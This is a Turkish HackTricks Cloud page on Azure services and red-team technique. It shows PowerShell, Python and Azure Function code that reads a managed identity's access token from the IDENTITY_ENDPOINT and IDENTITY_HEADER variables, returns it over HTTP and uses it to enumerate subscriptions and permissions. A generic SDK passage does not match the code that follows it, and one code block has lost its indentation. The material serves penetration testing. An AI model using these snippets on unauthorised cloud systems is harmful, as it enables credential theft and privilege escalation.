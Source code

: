 # Az - Hizmetler

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Portal

**Microsoft portal listesini** [**https://msportals.io/**](https://msportals.io/) adresinde bulabilirsiniz.

### Ham istekler

#### Powershell ile Azure API'si

**IDENTITY\_HEADER** ve **IDENTITY\_ENDPOINT** üzerinden **access\_token** alın: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.

Ardından Azure REST API'sini sorgulayarak **abonelik ID'si** ve daha fazlasını alın.
```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Azure API Python Sürümü

Bu bölümde, Azure API'lerine Python kullanarak nasıl erişileceğini öğreneceksiniz. Azure API'lerini kullanarak Azure hizmetlerine programatik olarak erişebilir ve yönetebilirsiniz.

Azure API'lerine erişmek için Azure SDK'sını kullanabilirsiniz. Azure SDK'sı, Azure hizmetlerine erişmek için kullanılan Python kütüphanelerini içerir. Azure SDK'sını yüklemek için aşağıdaki adımları izleyin:

1. Azure SDK'yı yüklemek için aşağıdaki komutu çalıştırın:

```bash
pip install azure
```

2. Azure SDK'yı projenize dahil etmek için aşağıdaki kodu kullanın:

```python
from azure.common.credentials import ServicePrincipalCredentials
from azure.mgmt.resource import ResourceManagementClient

# Azure kimlik bilgilerini ayarlayın
subscription_id = 'your-subscription-id'
tenant_id = 'your-tenant-id'
client_id = 'your-client-id'
client_secret = 'your-client-secret'

# Kimlik bilgileriyle oturum açın
credentials = ServicePrincipalCredentials(
    client_id=client_id,
    secret=client_secret,
    tenant=tenant_id
)

# Azure API'lerine erişmek için bir istemci oluşturun
resource_client = ResourceManagementClient(credentials, subscription_id)
```

Yukarıdaki kod örneğinde, Azure kimlik bilgilerinizi ve abonelik kimliğinizi belirtmeniz gerekmektedir. Bu bilgileri Azure Portal'dan veya Azure CLI aracılığıyla alabilirsiniz.

Azure API'lerine Python kullanarak erişmek için bu örnek kodu kullanabilirsiniz. Bu örnek, Azure kaynak yönetimi API'sine erişmek için kullanılan bir istemci oluşturur.
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
veya bir Python Fonksiyonu içinde:
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## Hizmet Listesi

**Bu bölümün sayfaları Azure hizmetine göre sıralanmıştır. Burada her hizmet hakkında bilgi bulabilirsiniz (nasıl çalıştığı ve yetenekleri) ve ayrıca her hizmetin nasıl numaralandırılacağını öğrenebilirsiniz.**

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek isterseniz** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimizi**](https://opensea.io/collection/the-peass-family) görün
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı **takip edin**.
* **Hacking hilelerinizi HackTricks ve HackTricks Cloud github depolarına PR göndererek paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
